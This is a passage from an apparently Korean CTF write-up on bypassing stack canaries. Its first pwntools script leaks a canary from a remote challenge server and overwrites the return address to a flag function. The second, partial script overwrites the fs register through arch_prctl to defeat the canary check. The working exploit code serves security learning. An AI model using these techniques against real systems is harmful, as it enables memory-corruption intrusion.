 ```C
from pwn import *
  
# context.log_level = 'debug'
  
# p = process("./canary")
p = remote("211.229.218.12", 33015)
  
dum = b'a'*0x48 + b'b'
p_flag = 0x401236
  
p.sendafter("> ", dum)
  
p.recvuntil(b"ab")
  
canary = u64(b'\x00'+p.recv(7))
  
ex = b'a'*0x48 + p64(canary) + b'b'*0x8 + p64(p_flag)
 
p.sendafter("> ", ex)
  
p.interactive()
```

![](https://i.imgur.com/Zfi5o7B.png)

flag를 획득할 수 있다.

### 예제 __ 제공 문제


checksec
![](https://i.imgur.com/p5eRiUM.png)

canary가 걸려있는것을 알 수 있다.
![](https://i.imgur.com/uLxmHLI.png)

우선 read로 memo에 값을 입력받는데 main에 선언이 안되어있으니 전역변수로 선언되었을것이다. 그리고 memset을 해준 후 read로 s 배열에 입력을 받는데 overflow가 일어난다. 그리고 v6가 -559038737, 16진수로 하면 0xdeadbeef 일 경우 arch_prctl 함수를 실행하는데 이것은 레지스터의 값을 v5로 바꾸는 함수로 4098인 경우 fs 레지스터의 값을 바꾼다.

카나리는 fs를 참조하여 값을 비교하니 이 fs를 memo로 바꿔서 canary 보호기법을 우회할 수 있다.

```c
from pwn import *
  
p = process("./chall")
  
getshell = 0x4011b6
memo = 0x0000000000404080
ret = 0x401289
  
me = p64(memo)
me += p64(memo)
me += p64(memo)
me += b'\x00'*0x100
p.send(me)
  
sleep(1)
  
ex = b'a'*0x30
ex += p64(memo)
ex += p64(0xdeadbeef)
ex += p64(0)
ex += p64(0) # canary
ex += p64(0) # sfp
```